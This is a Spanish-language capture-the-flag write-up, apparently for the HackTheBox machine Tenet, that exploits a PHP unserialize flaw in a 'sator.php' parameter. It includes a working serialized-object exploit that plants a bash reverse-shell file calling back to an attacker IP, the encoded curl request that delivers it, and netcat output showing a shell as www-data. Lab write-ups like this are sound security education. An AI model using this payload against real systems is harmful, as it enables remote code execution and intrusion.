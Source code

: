 # **EXPLOTACION**

### PHP DESERIALIZATION

Estudiando el codigo php de la pagina web encuentro que podemos pasarle un input a traves de la variable 'arepo' , por lo cual podemos tratar de pasarle un payload malicioso serializado en php para que luego nos lo deserialize:

`$input = $_GET['arepo'] ?? '';`

lo que le pasemos a traves de 'arepo' lo almacena en $input

`$databaseupdate = unserialize($input);`

deserializa el input y lo almacena en databaseupdate

En este [link](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) nos enseña a como aprovecharnos de esto para coseguir colocar un archivo con el contenido malicioso.

Encuentro en GitHub un exploit que nos viene al pelo: [exploit](https://github.com/1N3/Exploits/blob/master/PHP-Serialization-RCE-Exploit.php)

Si nos fijamos la estructura es muy parecida a nuestro php, solo tenemos que cambiar algunas cosas, el resultado final del exploit quedaria asi:

```php
<?php 
class DatabaseExport
{
   public $user_file = 'rce.php';
   public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.16.198/443 0>&1\'"); ?>';
}
$url = 'http://sator.tenet.htb/sator.php?arepo='; // Change it to arbitrary url
print urlencode(serialize(new DatabaseExport()));
?>
```

Lo ejecutamos y nos da un contenido serializado que se lo tenemos que pasar a 'arepo' :

```bash
❯ curl -s "http://sator.tenet.htb/sator.php/?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A73%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.16.198%2F443+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D"
[+] Grabbing users from text file <br>
[] Database updated <br>[] Database updated <br>   
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────                                                                                                                                                                                                                                        
❯ curl -s "http://sator.tenet.htb/rce.php"

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.223] 60974
whoami
www-data
```
